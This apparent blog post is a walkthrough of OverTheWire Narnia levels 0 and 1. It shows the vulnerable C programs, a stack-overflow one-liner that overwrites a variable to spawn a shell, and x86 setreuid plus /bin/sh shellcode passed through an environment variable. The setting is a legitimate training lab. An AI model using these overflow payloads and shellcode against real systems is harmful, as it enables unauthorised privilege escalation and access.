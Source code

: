 ```yaml
---
title: Overthewire Narnia Walkthrough
date: 2023-09-19
excerpt: Let's have some fun ;)
permalink: overthewire-narnia-walkthrough
---
```


## Narnia 0
In `/narnia/narnia0.c` we can find the source code of `/narnia/narnia0`

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

And it's a simple stack overflow bug because `buf` only has 20 bytes and 
`scanf` will read 24 bytes into where `buf` starts. And the extra 4 bytes
will overwrite the value in `val`.

Therefore, we can do a oneliner as follows to get shell

```bash
ssh -p 2226 narnia0@narnia.labs.overthewire.org bash -c "\"(echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' && cat) | /narnia/narnia0\""
```

> As a sidenote, thanks to peachoolong-uwu who told me that I can embed `echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde'` inside a pair of parentheses and add `&& cat` to keep the stdin steam open.

Now once we type the password of narnia0, `/narnia/narnia0` will send us to
 a sub-shell and we should be `narnia1` in this new shell.

To get the password of user `narnia1`, we simply type 
`cat /etc/narnia_pass/narnia1` and press return.

![Get Shell, narnia0](assets/narnia0.png)


## Narnia 1

Now we have the password to log in to `narnia1`, we can find its source code
at `/narnia/narnia1.c`.

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

`ret` is a function pointer, so once we get the value of the environment
variable, `EGG`, it will be assigned to `ret`. 

And calling `ret()` will be effeectively jump to the position of the result of
`getenv("EGG")`, it will execute whatever instruction
we set in the env var `EGG`.

Therefore, we can craft some shellcode and get shell.

```bash
$ pwn shellcraft -f d setreuid
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80
$ pwn shellcraft -f d sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Or you can use my fork of pwntools which supports multiple shellcraft commands,
[cocoa-xu/pwntools:cx-multi-shellcraft-cmd](https://github.com/cocoa-xu/pwntools/tree/cx-multi-shellcraft-cmd).

```bash
$ pwn shellcraft -f d setreuid + sh
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

So we can do this to get shell and gat the password for user `narnia2`.

```bash
EGG=`echo -e '\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'` /narnia/narnia1
$ cat /etc/narnia_pass/narnia2
```

![Get Shell, narnia1](assets/narnia1.png)
